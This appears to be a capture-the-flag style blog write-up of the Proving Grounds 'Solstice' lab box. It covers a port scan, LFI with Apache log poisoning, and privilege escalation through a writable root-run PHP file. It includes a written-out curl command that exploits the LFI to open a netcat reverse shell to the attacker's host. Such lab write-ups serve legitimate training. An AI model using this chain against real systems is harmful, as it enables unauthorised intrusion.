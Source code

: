 ```yaml
---
layout: post
title: Proving Grounds - Solstice
---
```


Solstice is a Linux box that is available on [Offensive Security's Proving Grounds](https://www.offensive-security.com/labs/individual/).  It's rated as an Easy box, and rightfully so.  There were a few rabbit holes, but if you considered all the variables before going down the rabbit hole, you would successfully avoid them.

*Initial foothold:* LFI

*Privilege Escalation:* File permissions

### Recon

I started off with a port scan.  I make use of [rustscan](https://github.com/RustScan/RustScan).

I have this alias set up in my .zshrc file:

```bash
portscan() {
        sudo rustscan -t 10000 -a $1 --ulimit 10000 -- -Pn -sC -sV -oA nmap/rustscan-$1
}
```

```
PORT      STATE SERVICE REASON         VERSION
21/tcp    open  ftp     syn-ack ttl 63 pyftpdlib 1.5.6
| ftp-syst: 
|   STAT: 
| FTP server status:
|  Connected to: 192.168.143.72:21
|  Waiting for username.
|  TYPE: ASCII; STRUcture: File; MODE: Stream
|  Data connection closed.
|_End of status.
22/tcp    open  ssh     syn-ack ttl 63 OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 5b:a7:37:fd:55:6c:f8:ea:03:f5:10:bc:94:32:07:18 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDWAl1JMEsT6kbFmhkFFIZbd2aH3DuBpmLjo1MvWSSFsUlQ+rN9wQ8y469ng7vKZDx19ke+JZ9jUcuJAu4zQ6BHjHDcLTy44WJCESD4oACMCK6+tlMneuINf6KTMr3urfvkvlULi2ffNbMl6Ko9gS/Oqh8Cm9HyAXGTK5MVgmW39QFTXdn7ByQMnnXjKmJ+5nXbf9c9Al9JJCFQAe0irCq2w3ubylh83SwPWsunapn0pW8Czsm2nsFL6aRXCOoNeK7/GmcC8lqENMnUIVRauhpDR3radZ4Uv4ejzHL8H+IklpgVRqBiuzRiqHpGlotNYadcArbYZ4auDwibrtRwgTlD
|   256 ab:da:6a:6f:97:3f:b2:70:3e:6c:2b:4b:0c:b7:f6:4c (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBM9EuXzK3hXcn3ml6Kj69Bo1DACMk1AZWWm9wgPGIyPBQyQLXLazAtoqEP1phT1BNmtyAvScCwsydQwUsRH/3vA=
|   256 ae:29:d4:e3:46:a1:b1:52:27:83:8f:8f:b0:c4:36:d1 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIATUyTSmh1Tep0cnIVXvQBD6IQTjI8TBEmQEba1Fzkv2
25/tcp    open  smtp    syn-ack ttl 63 Exim smtpd
| smtp-commands: solstice Hello nmap.scanme.org [192.168.49.143], SIZE 52428800, 8BITMIME, PIPELINING, CHUNKING, PRDR, HELP, 
|_ Commands supported: AUTH HELO EHLO MAIL RCPT DATA BDAT NOOP QUIT RSET HELP 
80/tcp    open  http    syn-ack ttl 63 Apache httpd 2.4.38 ((Debian))
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Site doesn't have a title (text/html).
2121/tcp  open  ftp     syn-ack ttl 63 pyftpdlib 1.5.6
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drws------   2 www-data www-data     4096 Jun 18  2020 pub
| ftp-syst: 
|   STAT: 
| FTP server status:
|  Connected to: 192.168.143.72:2121
|  Waiting for username.
|  TYPE: ASCII; STRUcture: File; MODE: Stream
|  Data connection closed.
|_End of status.
8593/tcp  open  http    syn-ack ttl 63 PHP cli server 5.5 or later (PHP 7.3.14-1)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
54787/tcp open  http    syn-ack ttl 63 PHP cli server 5.5 or later (PHP 7.3.14-1)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
62524/tcp open  ftp     syn-ack ttl 63 FreeFloat ftpd 1.00
Service Info: OSs: Linux, Windows; CPE: cpe:/o:linux:linux_kernel, cpe:/o:microsoft:windows
```

### HTTP - Port 8593

On the second HTTP port, 8593, I found a bit more to work with than with the service running on port 80.

![](/assets/2021-06-23-11-46-34.png)

I also discovered LFI injection possible on the `book` parameter.

![](/assets/2021-06-23-11-47-42.png)

I made sure I could access the Apache log file, to try log poisoning.

![](/assets/2021-06-23-11-48-35.png)

I made a request to inject some PHP code into the log file.

![](/assets/2021-06-23-11-49-07.png)

As I had been doing a lot of HTTP fuzzing, the access log was huge.  So I made a quick ping command to test that I actually have command execution.  There was a successful ping back.

![](/assets/2021-06-23-11-50-01.png)

![](/assets/2021-06-23-11-50-06.png)

### Initial foothold

From here it was easy to get a reverse shell.

```bash
curl "http://192.168.143.72:8593/index.php?book=../../../../var/log/apache2/access.log&cmd=nc%20192.168.49.143%204444%20-e%20/bin/bash"
```

![](/assets/2021-06-23-11-51-49.png)

### Privilege Escalation

Making use of [linpeas.sh](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/linPEAS/linpeas.sh) I was able to see that there is a custom web application running on local port 57.

![](/assets/2021-06-23-11-53-32.png)

I also noticed that the service running on this port was starting up from the /var/tmp/sv directory.

![](/assets/2021-06-23-12-01-14.png)

As the service was being run as `root`, and I had write access to the `index.php` file, I decided to add in code that should run as root.

![](/assets/2021-06-23-12-02-19.png)

I used curl to access this service, to trigger the code in `index.php`.

![](/assets/2021-06-23-12-02-49.png)

The `bash` file was successfully copied and made SUID.

![](/assets/2021-06-23-12-03-08.png)